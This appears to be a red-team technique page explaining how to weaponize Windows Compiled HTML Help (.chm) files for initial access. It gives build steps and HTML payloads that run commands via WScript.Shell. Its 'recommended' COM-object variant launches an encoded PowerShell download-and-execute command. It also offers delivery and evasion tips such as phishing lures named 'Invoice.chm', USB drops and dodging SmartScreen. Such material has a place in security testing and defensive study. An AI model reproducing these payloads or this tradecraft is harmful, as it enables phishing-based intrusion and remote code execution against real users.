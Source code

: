 
# CHM (Compiled HTML Help) Files

**Type:** Malicious Documents & File-Based Delivery  
**Platform:** Windows  
**Prerequisites:** User must open the `.chm` file manually (usually via phishing or USB drop); Windows has built-in CHM file support


---
## Overview

**CHM files** (Compiled HTML Help) are a legacy Microsoft format for help documents. Despite being designed for documentation, they support **embedded HTML, JavaScript, and ActiveX** , including the ability to run **executable code** via scripting.

Attackers weaponize `.chm` files by embedding malicious scripts or links that execute **PowerShell, CMD, or dropper EXEs** when the file is opened. This makes CHM-based initial access attractive


---
## How It Works

- The attacker crafts a `.chm` file with malicious content (e.g., an HTML file calling `mshta.exe` or `powershell.exe`).
- When the target opens the `.chm`, the embedded script is automatically rendered.
- This script executes system commands (often silently), such as downloading or running a second-stage payload.

CHM files are treated as **trusted content** in many systems, especially if stored or opened locally (e.g., `C:\Users\Public\info.chm`).


---
## Prerequisites

**Tools Needed***
- `hh.exe` (Windows Help Viewer, built-in)
- `HTML Help Workshop` (to compile `.chm`)
- Simple web server or payload generator (e.g., `msfvenom`, `python3`, `Netcat`)


---
## Steps to Implement

1. **Create Malicious HTML**

<img src="creating-html-payload.png" >

2. **Compile the HTML into `.chm` Using HTML Help Workshop.** [Download Microsoft’s HTML Help Workshop.](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/htmlhelp/microsoft-html-help-downloads)

**Steps:**

   **1 - Create a `.hhp` project file:**

```
[OPTIONS]
Compatibility=1.1 or later
Compiled file=payload.chm
Default topic=index.html
```

<img src="creating-hhp-file.png" >

   **2 - open project.hhp in `HTML Help Workshop`**
  <img src="opening-project.png" >
   
<img src="opening-project-hhp.png" >

   **3 - Add `payload.html` to the project.**
<img src="adding-html-payload.png" >

<img src="adding-html-payload-.png" >

<img src="html-payload-file.png" >

   
   **4 - Compile to payload.chm.**
   
<img src="compile-to-chm.png" >

<img src="compiling.png" >


3. **Deliver the `.chm` File**
   - Email it as an attachment with a lure like “Invoice.chm”
   - Drop it on USB or shared drive

4. **Execution**

once the victim open the `.chm` file the embedded script will be rendered by `hh.exe` , resulting in a reverse shell being established.


<img src="prepare.png" >


<img src="pwnd.png" >


---
## Payload/Code Snippets

- **malicious HTML payload with embedded JavaScript  ( will trigger windows-security-warning  - not recommended )**
```html
<html>
<head>
  <script type="text/javascript">
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("calc.exe");
  </script>
</head>
<body>
<h1>Help Document</h1>
<p>This is a sample help document.</p>
</body>
</html>
```

- **malicious HTML payload with embedded VBScript ( will trigger windows-security-warning  - not recommended )**
```html
<html>
<head>
  <script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc.exe"
</script>
</head>
<body>
<h1>Help Document</h1>
<p>This is a sample help document.</p>
</body>
</html>
```

- **stealthy command execution via COM Object. ( recommended )**
```html
<html>
  <head>
    <title>Customer Service</title>
  </head>

  <body>
    <h2 align="center">Customer Service</h2>
    <h3 align="center">Please wait...</h3>

    <!-- Malicious COM object -->
    <object 
      id="shortcut" 
      classid="clsid:52a2aaae-085d-4187-97ea-8c30db990436" 
      width="1" 
      height="1">
      
      <!-- Set the command type -->
      <param name="Command" value="ShortCut">

      <!-- Launch PowerShell with obfuscated payload -->
      <param name="Item1" value=",powershell.exe, -w 1 -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgA4ADAAMAAwAC8AcABhAHkAbABvAGEAZAAuAHAAcwAxACcAKQA= ">
      
    </object>

    <!-- Trigger execution -->
    <script>
      shortcut.Click();
    </script>
  </body>
</html>

```



---
## Tips

- Rename `.chm` files to blend in (e.g., `manual.chm` , `HR_policy.chm`)
- CHM files execute locally without firewall triggers
- Combine with LNK or autorun.inf on USB drops
- mshta is a trusted binary (LOLBAS), commonly used with CHM
- Avoid triggering SmartScreen by serving from internal shares or trusted paths


---

## References

- [LOLBAS: mshta](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
- [Microsoft HTML Help Workshop](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/htmlhelp/microsoft-html-help-downloads)
- [MITRE ATT&CK ID: T1218.001 – Signed Binary Proxy Execution: Compiled HTML File](https://attack.mitre.org/techniques/T1218/001/)
- [Weaponize .chm files with PowerShell — Nishang](https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e)
- [Analyzing a Malicious Compiled HTML Help File Delivering Agent Tesla](https://unit42.paloaltonetworks.com/malicious-compiled-html-help-file-agent-tesla/)

---

**_Author_** : **o-sec**
